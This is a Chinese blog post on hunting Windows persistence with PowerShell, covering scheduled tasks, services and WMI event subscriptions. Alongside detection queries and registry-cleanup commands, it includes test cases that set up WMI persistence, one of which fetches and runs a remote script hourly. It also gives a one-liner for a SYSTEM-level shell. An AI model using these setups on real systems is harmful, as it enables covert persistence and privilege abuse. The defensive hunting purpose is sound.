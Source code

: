 ```yaml
---
title: "Windows 常见持久化排查思路"
date: 2022-11-04
type: posts
draft: false
categories:
  - Windows-Security
tags:
  - windows
  - persistence
  - investigation
  - ScheduledTask
  - WMI
---
```


一些挖矿勒索还有某些流氓软件，经常利用 计划任务 和 wmi 定时执行无文件后门或劫持浏览器主页，利用 powershell 怎么排查？

<!--more-->

## 常见持久化进程树

```plain
a. services.exe  服务
b. svchost.exe -k netsvcs -p -s Schedule/taskeng.exe/dllhost.exe/taskhost.exe   计划任务
c. WmiPreSE.exe  wmic process create cmd /powershell 横向移动 
              wmi事件订阅 持久化 cmdline
d. scrcons.exe
              wmi事件订阅 持久化 vbs脚本
```

## 计划任务

一般的计划任务，名字比较固定，或者就放在根路径，不需要花里胡哨的东西，直接到 taskschd.msc 里找。

如果藏得比较深又比较多，懒得找，或者计划任务名字随机的，又或者修改了当前已有的计划任务启动命令为恶意命令，利用 powershell 会让这个事情变简单一些。

以执行程序作为过滤条件，例如过滤出执行 powershell 的计划任务（低版本没有 Get-ScheduledTask cmdlet）：

```powershell
Get-ScheduledTask | ?{$_.Actions.execute -imatch ".*?powershell.exe['`"]?$" } | %{[PSCustomObject]@{name = $_.taskname; path = $_.taskpath; exe = $_.Actions.execute; cmdline = $_.Actions.arguments; user = $_.Principal.UserId}} | Format-Table
```

以任务状态作为过滤条件，查找所有运行中的任务（低版本没有 Get-ScheduledTask cmdlet）：

```powershell
Get-ScheduledTask | ?{$_.State -imatch "running" } | %{[PSCustomObject]@{name = $_.taskname; path = $_.taskpath; exe = $_.Actions.execute; cmdline = $_.Actions.arguments; user = $_.Principal.UserId; status = $_.State}} | ft
```

遇到 [深入理解 Windows 计划任务及其恶意隐藏方式探究](../windows_schedule_task_internal) 中提到的任务隐藏姿势，上面的命令查不到，可以通过注册表筛选计划任务会显示更全一些，比如筛选出所有执行 powershell 的任务（2008不可以用）：

```powershell
Get-ChildItem -Recurse -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\' | ?{ $_.Property -contains "Id" } | Get-ItemProperty | %{$actions = (Get-ItemProperty -Path ('HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'+$_.Id) -ea 0).Actions;if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = ($_.PSPath -replace '.*?\\TaskCache\\Tree\\',''); id = $_.Id; index = $_.Index; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} | ?{$_.actions -imatch '.*?powershell.*?'}
```

如果已经有恶意进程的 PID，想找到与之对应的计划任务项是哪个，可以通过 COM 接口来查：

```powershell
# Evil PID
$ePid = 8372

# Initiate a COM object and connect
$TaskService = New-Object -ComObject('Schedule.Service')
$TaskService.Connect()

# Query for currently running tasks 
# 0 - the user is permitted to see. 
# 1 - 0 + Hidden
$runningTasks = $TaskService.GetRunningTasks(1)

# Get the task associated to a certain PID
$runningTasks | Where-Object{$_.EnginePID -eq $ePid} | Select-Object -ExpandProperty Path
```

其他查找恶意计划任务的命令：

```powershell
# Search TaskCache Tasks
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| Get-ItemProperty | %{$actions=[System.Text.Encoding]::Unicode.GetString($_.actions, 0, $_.actions.Length); [PSCustomObject]@{path = $_.path; id = $_.PSChildName; URI = $_.URI; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} | ?{$_.actions -imatch '.*?powershell.*?'}

# use COM Object
($TaskScheduler = New-Object -ComObject Schedule.Service).Connect();$TaskScheduler.GetFolder('\Microsoft\Windows').GetTasks(0) | Select Name, State, Enabled, LastRunTime, LastTaskResult

# use WMI query
GWMI -Namespace Root/Microsoft/Windows/TaskScheduler -class MSFT_ScheduledTask -Recurse | ?{$_.TaskName -imatch "Bluetool"}
```

从注册表中找到包含恶意动作的计划任务注册表项，可查隐藏计划任务（win8以上适用）：

```powershell
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| %{$item = ($_|Get-ItemProperty); $actions = $item.Actions; if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = $item.Path; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} |  ?{$_.actions -imatch '.*?(notepad|calc|powershell|wmic|regsvr).*?'}
```

win 2008 r2 比较比较老的系统中查找恶意计划任务（如果是排查隐藏任务建议system权限运行）：

```powershell
schtasks.exe /query /v /fo csv |convertfrom-csv | select @{ label = "ComputerName"; expression = { $computername } }, @{ label = "Name"; expression = { $_.TaskName } }, @{ label = "Action"; expression = {$_."Task To Run"} }, @{ label = "LastRunTime"; expression = {$_."Last Run Time"} }, @{ label = "NextRunTime"; expression = {$_."Next Run Time"} }, "Status", "Author"|?{$_.action -imatch "http|wmic|regsvr|powershell"}|%{echo $_.Name}
```

win 2008 r2 比较老的系统中查找并清理残留的计划任务注册表项（system权限运行，不要在win8以上版本运行会误删）：

```powershell
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| %{$item = ($_|Get-ItemProperty); $actions = $item.Actions; if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = $item.Path; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} |%{if (-not(test-path -path (join-path "C:\Windows\System32\Tasks" $_.path) -PathType Leaf)) { remove-item -force -path (join-path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\' $_.path)  -erroraction SilentlyContinue; remove-item -force -path (join-path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\' $_.name) -erroraction SilentlyContinue;echo $_};}
```

win 2008 r2 比较老的系统中查找残留的计划任务注册表项（不建议在win8以上系统使用）：

```powershell
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| %{$item = ($_|Get-ItemProperty); $actions = $item.Actions; if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = $item.Path; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} |%{if (-not(test-path -path (join-path "C:\Windows\System32\Tasks" $_.path) -PathType Leaf)) {echo $_.path};}
```

win10 以上批量清理任务动作为*/temp/*.exe这个模式的计划任务：（清理前先在regedit中导出HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache备份）

```powershell
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| %{$item = ($_|Get-ItemProperty); $actions = $item.Actions; if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = $item.Path; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}}|?{$_.actions -ilike "*\temp\*.exe"}|?{$_.name -ne '' -or $_.path -ne ''}|%{remove-item -Force -Recurse "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$($_.name)";Remove-Item -Force -Recurse "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree$($_.path)"}
```

如果已经确定存在恶意计划任务，但是通过以上这些手段就是找不到怎么办（当然前提是你会用这些命令），我建议你想办法重启服务器，如果没办法重启服务器，使用 psexec 切换到 system 账户重启 Task Schedule 服务也可以。

> 快速获取SYSTEM权限交互式cmd终端：
>
> ```cmd
> sc create testsvc binpath= "cmd /K start" type= own type= interact
> sc start testsvc
> ```

## 服务

寻找可疑的服务项：

```powershell
Get-ChildItem -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\'| %{$item = ($_|Get-ItemProperty); $actions = $item.ImagePath; if ($actions -imatch "wmic|http|powershell|cmd|notepad|ProgramData|Download|rundll32|regsvr") {echo $_;}}
```

## WMI 事件订阅

这里先给几个测试用例：

用例1：1小时启动一次 notepad

```powershell
$filterName = 'BotFilter82'
$consumerName = 'BotConsumer23'
$exePath = 'C:\Windows\System32\notepad.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 3600 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name= $filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{ Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

用例2：1小时执行一次用来远程下载的脚本

```powershell
$filterName = 'filtP1'
$consumerName = 'consP1'
$Command ="GetObject(""script:https://localhost/kkkk.vbs"")"    
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 3600 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"    
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop    
$WMIEventConsumer = Set-WmiInstance -Class ActiveScriptEventConsumer -Namespace "root\subscription" -Arguments @{Name=$consumerName;ScriptingEngine='JScript';ScriptText=$Command}    
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

### 排查思路 1

适合已知 `__EventFilter` 的某些特征，例如 Query 语句，或者 Name。

根据 Query 查询 `__EventFilter：`

```powershell
$a = Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "Query LIKE '%Win32_PerfFormattedData_PerfOS_System%'"
```

![wmi_hunting_idea1_1](wmi_hunting_idea1_1.png)

根据 `__EventFilter` 查询 `__FilterToConsumerBinding：`

```powershell
$b = Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding | ?{$_.Filter -match ($a.name -join '|')}
```

![wmi_hunting_idea1_2](wmi_hunting_idea1_2.png)

根据 `__FilterToConsomerBinding` 查询 `__EventConsumer：`

```powershell
$b | %{Get-WmiObject -Namespace root\subscription -Class __EventConsumer -Filter "__RELPATH = '$($_.Consumer)'"}

# OR

$b | %{[wmi]"$($_.__NAMESPACE):$($_.Consumer)"}
```

![wmi_hunting_idea1_3](wmi_hunting_idea1_3.png)

### 排查思路 2

适合一切未知，想排查一下恶意软件是否利用 wmi 事件进行了持久化。

持久化，必然需要创建三个类对象：`__EventFilter`、`__FilterToConsumerBinding`、`__EventConsumer`，其中 `__EventFilter` 定义了事件过滤查询的语句（比如每 10s 查询一次名为 ss 的服务），`__FilterToConsumerBinding` 负责将 `__EventConsumer` 和 `__EventFilter` 绑定，Filter 负责提供数据，Consumer 负责指定消费数据的动作。

`__EventConsumer` 根据 [MSDN](https://docs.microsoft.com/en-us/windows/win32/wmisdk/standard-consumer-classes) 可知，有 5 种：`ActiveScriptEventConsumer`、`CommandLineEventConsumer`、`LogFileEventConsumer`、`NTEventLogEventConsumer`、`SMTPEventConsumer`。

`ActiveScriptEventConsumer` 可以指定当 Filter 中的事件被触发时执行一个预定义的 vbs 脚本，而 `CommandLineEventConsumer` 可以指定事件触发时启动的进程命令行。这两个 Consumer 经常被用来做持久化。

所以可以直接排查注册的 `ActiveScriptEventConsumer` 和 `CommandLineEventConsumer`，排查是否有持久化动作。

根据一些脚本或命令行特征，查询 `__EventConsumer`：

```powershell
$a = Get-WmiObject -Namespace root\subscription -Class __EventConsumer | ?{($_.ScriptText -imatch 'GetObject.*?http') -or ($_.CommandLineTemplate -imatch 'notepad|powershell|cmd')}
```

![wmi_hunting_idea2_1](wmi_hunting_idea2_1.png)

根据查询到的 __EventConsumer 查询 __FilterToConsomerBinding：

```powershell
$b = Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding | ?{$_.Consumer -match ($a.name -join '|')}
```

![wmi_hunting_idea2_2](wmi_hunting_idea2_2.png)

根据查询到的 `__FilterToConsomerBinding` 查询 `__EventFilter`：

```powershell
$b | %{Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "__RELPATH = '$($_.Filter)'"}

# OR

$b | %{[wmi]"$($_.__NAMESPACE):$($_.Filter)"}
```

![wmi_hunting_idea2_3](wmi_hunting_idea2_3.png)
